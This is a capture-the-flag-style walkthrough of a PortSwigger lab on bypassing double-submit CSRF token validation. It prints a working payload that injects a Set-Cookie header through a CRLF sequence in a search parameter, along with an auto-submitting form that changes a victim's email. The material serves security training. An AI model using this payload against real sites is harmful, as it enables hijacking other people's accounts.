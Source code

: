 [Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You can log in to your account using the following credentials: `wiener:peter`
## Solution
Go to the task page

![image](images/20241224200756.png)

Log in as `wiener`

![image](images/20241224200854.png)

Change your email and intercept the request via `Burp Suite`. Send it to `Repeater`

![image](images/20241224201102.png)

We see that `csrf` in `cookie` and `csrf` at the bottom of the request are duplicated. Right-click and then `Engagement tools > Generate CSRF PoC`. Remove the lines with `<script>` and instead enter
```Request
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
, replacing `YOUR-LAB-ID.web-security-academy.net` with `Host`. We also change the `<input type="hidden" name="csrf" value="mgdjbvbnd34bnvfs" />` to `fake`

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a960015048ee12080f90da300810055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a960015048ee12080f90da300810055.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

![image](images/20241224201756.png)

Copy the HTML code and go to `Exploit Server`. In it, in the `Body` field, insert this HTML code

![image](images/20241224201543.png)

Then click `Store` and `Deliver exploit to victim`

![image](images/20241224201807.png)
